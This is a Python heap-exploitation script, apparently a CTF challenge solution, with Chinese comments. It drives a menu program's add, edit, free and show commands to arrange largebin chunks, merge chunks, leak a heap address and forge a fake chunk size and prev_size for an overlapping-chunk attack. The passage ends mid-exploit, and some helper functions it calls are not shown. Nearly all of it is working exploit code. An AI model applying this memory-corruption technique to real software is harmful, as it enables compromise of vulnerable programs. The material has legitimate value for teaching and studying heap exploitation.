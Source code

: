 ```python


def edit(num,text=''):
    p.sendline('3')
    p.recvuntil('Index?') 
    p.sendline(str(num))   
    p.recvuntil("content:")
    p.send(text)

def free(num):
    p.sendline('4')
    p.recvuntil('Index?\n')
    p.sendline(str(num))
    
def pwn():
 #1.创造4个大于tcache的最大值并且在largebin范围内的chunk A、B、C、D。
    add(0,0x450)
    add(1,0x80)
    add(2,0x450)
    add(3,0x450)
    add(4,0x4f0)
    add(5,0x450)
    add(6,0x80)
#按照顺序释放A、C、D，形成largebins 链表。
    free(5)
    free(3)
    free(0)
#释放chunk B，让chunk B和chunk C产生合并
    free(2)
#让old chunk C的 old fd 与old bk保留在new chunk 底部。
    add(2,0x470)
    add(3,0x430)
#复原chunk
    add(5,0x450)
    add(0,0x450)

    free(0)
    free(3)
    free(5)
#修改chunk A bf 值为old chunk C addr。修改chunk D fd 值为old chunk C addr。
#(这里体现方法的一个弊端，如果`\n`不能替换‘\x00’就需要题目有show功能)
    add(0,0x450) #bk
    add(3,0x430)
    add(5,0x450) 
    edit(0,p8(0)*7+'\n')

    free(5)
    free(3)
    add(6,0x500)
    add(5,0x450)
    show(5)
    p.recvline()
    fd=(u64(p.recvline()[:-1].ljust(8,'\x00'))-0x20)
    #fd=p.recvline()
    print(hex(fd))
    add(3,0x438)
    edit(5,p64(fd))
#通过new chunk B修改  old chunk C size 为fake size。通过new chunk B修改  old chunk C size 为fake size。（这里就用残留的0x460）通过new chunk C 修改隔离chunk的`prevsize`值为fake size，
    edit(3,p8(0)*0x430+p64(0x460))
#
    free(4)
    add(0,0x100)
```